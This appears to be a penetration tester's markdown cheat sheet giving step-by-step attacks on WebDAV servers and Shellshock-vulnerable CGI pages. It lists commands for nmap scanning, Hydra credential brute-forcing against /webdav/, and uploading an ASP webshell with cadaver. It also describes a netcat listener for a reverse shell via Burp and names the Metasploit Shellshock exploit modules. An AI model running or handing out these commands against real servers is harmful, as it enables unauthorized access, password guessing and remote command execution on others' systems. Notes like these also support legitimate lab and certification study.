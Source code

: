 # WebDav
NOTE: Will need credentials, webdav implements authentication (username: password) - Brute Force Requred (Hydra/Metasploit)

Is it configured to run on IIS? 
Post gaining legit credentials, upload a malicious asp payload that can be used to execute commands or gain reverse shell

## Scan to see version being ran
nmap -sV -p 80 --script=http-enum TARGET

## Brute Force for Credentials 
Hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt TARGET http-get /webdav/

Davtest -auth user:password -url http://TARGET/webdav

Cadaver http://TARGET/webdav
Add Webshell: put /usr/share/webshells/asp/webshell.asp

# ShellShock
(Scan to check if vulnerable) 

Nmap -sV IP -- script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"

Open Burp Suite

Proxy -> make sure intercept is on 
Send request to repeater

## To gain reverse shell 

Set up Netcat: nc -nvlp 1234

Once connection is established go back to burp suite

Paste IP in burp -> Send -> Get reverse shell

## With Metasploit
search shellshock 
(Scan) auxiliary/scanner/http/apche_mod_cgi_bash_environment Variable Injection (Shellshock) Scanner -> set targeturi to .cgi page 
(Exploit) exploit/multi/http/apache_mod_cgi_bash_environment Variable Code Injection (Shellshock) -> set LHOST
